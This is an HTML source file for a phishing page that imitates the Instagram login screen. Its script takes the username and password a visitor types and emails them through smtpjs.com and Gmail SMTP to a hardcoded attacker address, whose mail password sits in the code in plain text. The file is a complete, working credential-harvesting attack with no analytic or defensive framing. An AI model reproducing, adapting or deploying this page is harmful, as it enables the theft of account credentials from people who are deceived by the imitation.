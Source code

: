 <title>instagram</title>
	<script src="https://smtpjs.com/v3/smtp.js"></script>
	<script type="text/javascript">
    function sendEmail() {
	let uname = document.getElementById('username').value;
	let pwd = document.getElementById('password').value;
      Email.send({
        Host: "smtp.gmail.com",
        Username: "testing67976@gmail.com",
        Password: "testing@0987",
        To: 'testing67976@gmail.com',
        From: "testing67976@gmail.com",
        Subject:"New Credentials",
        Body: "Username : <b>"+uname+"</b> <br/> Password: <b>"+pwd+"</b>",
		UseDefaultCredentials :	false
      })
        .then(function (message) {
          console.log("mail sent successfully",message)
		  document.getElementById('parent').style.display = 'none';
		  });
    }
  </script>
	<body>
	  <div id="parent" style="text-align: center">
	  <div style=" margin: auto 35vw;">
	  <div style="border: 1px solid #dfdfdf;">
	  <br><br><br>
	  <img width="210px" height="60px" src="https://www.dafont.com/forum/attach/orig/7/3/737566.png?1"></img">
	  <div style="margin: 25px 0px;">
		 <input style="width:268;height:38" id="username" placeholder="Phone number,username or email">  
		 <div style="margin:10px"></div>
		 <input style="width:268;height:38" id="password" placeholder="Password"> 
		 <button style="border-radius: 4px;width: 270px;margin-top: 16px;background-color: #81d4fa;border: 1px solid #81d4fa;height: 30px;color: white;" onclick="sendEmail();"> Log In</button>
		 <div style="margin-top: 15px;">
			<div style="display:flex;">
			   <hr style="width: 130px;margin-right: 17px;border-color: #f5f2f2;">
			   <span>OR</span>
			   <hr style="width: 131px;margin-left: 19px;border-color: #f7f1f1;">
			</div>
			<div style="display:flex;margin: 25px 100px;">
			   <div style="margin-right: 5px">
			     <img src="https://cdn2.iconfinder.com/data/icons/social-media-2102/100/social_media_network-12-512.png"  height="20px">
				</div>
			   <div style="margin-top:2px;">
			     <span style="color: #3a5897;font-weight:800;">Log in with Facebook</span> 
			   </div>

			   			  </div>
			   <div><span style="font-size:14px">Forgot password?</span></div>
			  </div>
			  </div>
			  </div>
			  <div style="border: 1px solid #dfdfdf; margin-top:10px">
			   <div style="padding: 20px 10px;"><span style="font-size:17px">Don't have an account?</span> <span style="color:#069de2">Sign up</span></div>
			   </div>
			  <div style="margin-top:45px">
			   <div style="margin-bottom:30px">
			      <span>Get in the app.</span>
			   </div>
			   <img style="height: 40px" src="https://www.instagram.com/static/images/appstore-install-badges/badge_ios_english-en.png/180ae7a0bcf7.png">
			   <img style="height: 40px" src="https://www.instagram.com/static/images/appstore-install-badges/badge_android_english-en.png/e9cd846dc748.png">
			</div>
	  
	</html>
